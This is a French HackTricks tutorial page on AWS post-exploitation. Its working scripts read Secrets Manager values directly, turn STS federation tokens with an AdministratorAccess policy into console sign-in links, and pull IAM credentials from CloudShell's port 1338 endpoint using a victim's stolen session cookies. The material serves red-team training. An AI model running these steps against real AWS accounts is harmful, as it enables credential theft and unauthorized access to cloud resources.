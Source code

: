 # AWS - STS Post Exploitation

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR au** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos GitHub.

</details>
{% endhint %}

## STS

Pour plus d'informations :

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Nouvelle méthode décembre 2024 : Contourner l'exigence de lien de console Web, par requête HTTPS POST pour obtenir directement les secrets via l'API SecretsManager (pas de lien de connexion ou de console Web)

Soumis hier, en tant que PR pour l'examen à venir (ARTE : ex16x41) cependant je vois que la PR ne s'affiche pas, peut-être soumise incorrectement, essayons à nouveau :
En utilisant cette méthode, vous contournez complètement l'exigence d'ouvrir des URL, de formater des liens de connexion ou même d'utiliser le CLI / Console Web.
Alors, qu'avons-nous fait ici ?
J'ai écrit ce script qui interagit directement avec l'API AWS Secrets Manager, c'est absolument simple et direct.
Lorsque vous exécutez le script, il envoie une requête HTTPS POST à l'endpoint AWS Secrets Manager
https://secretsmanager.<region>.amazonaws.com/
La requête GetSecretValue est envoyée dans le cadre de la requête POST, authentifiée par la signature SigV4 (gérée par boto3).
Secrets Manager traite la demande :
AWS valide la demande par rapport aux politiques IAM attachées à votre utilisateur ou rôle (comme nous le savons, nous pouvons voir la valeur secrète uniquement via la console Web)
Si autorisé, le service Secrets Manager renvoie la valeur secrète demandée dans la réponse.
**Démonstration POC :**
La commande CLI AWS pour obtenir la valeur secrète ne fonctionne pas car l'accès est refusé ->
Cependant, sur l'image, vous pouvez voir la simplicité de la méthode pour extraire directement le drapeau en connaissant l'ID secret (ce que nous énumérons à un stade antérieur lorsque nous sommes connectés avec le profil utilisateur)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Remarque : Je pense que cette méthode peut être utilisée universellement selon le scénario si la politique le permet (mais contourne les restrictions de la politique qui ne le permet pas via le CLI)
Donc, cela peut être utilisé chaque fois qu'une politique le permet (comme option de test alternative)
Remarque : curieux des autres techniques que vous pouvez appliquer en utilisant la même méthode d'interaction directe avec l'API du service et maintenant AWS CLI, pour tout processus d'élévation de privilèges ou de post-exploitation comme ici.
**Code :**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Définir un User-Agent personnalisé
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Récupérer la valeur secrète directement via l'API secretsmanager
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Des identifiants IAM à la console

Si vous avez réussi à obtenir des identifiants IAM, vous pourriez être intéressé par **l'accès à la console Web** en utilisant les outils suivants.\
Notez que l'utilisateur/le rôle doit avoir la permission **`sts:GetFederationToken`**.

#### Script personnalisé

Le script suivant utilisera le profil par défaut et un emplacement AWS par défaut (ni gov ni cn) pour vous donner une URL signée que vous pouvez utiliser pour vous connecter à la console Web :

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Vous pouvez **générer un lien de console web** avec [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Assurez-vous que l'utilisateur IAM a la permission `sts:GetFederationToken`, ou fournissez un rôle à assumer.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) est un outil pour stocker et accéder en toute sécurité aux identifiants AWS dans un environnement de développement.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Vous pouvez également utiliser **aws-vault** pour obtenir une **session de console de navigateur**
{% endhint %}

#### De la console aux identifiants IAM

[**Découvert à l'origine dans ce post**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Si vous parvenez à compromettre un accès à une console web (peut-être que vous avez volé des cookies et que vous ne pouviez pas accéder au dossier .aws), vous pouvez obtenir des identifiants de jeton IAM pour cet utilisateur via **CloudShell**.

CloudShell expose des identifiants IAM via un **point de terminaison non documenté sur le port 1338**. Après avoir chargé les cookies de session de la victime dans votre navigateur, vous pouvez naviguer vers CloudShell et exécuter les commandes suivantes pour obtenir des identifiants IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
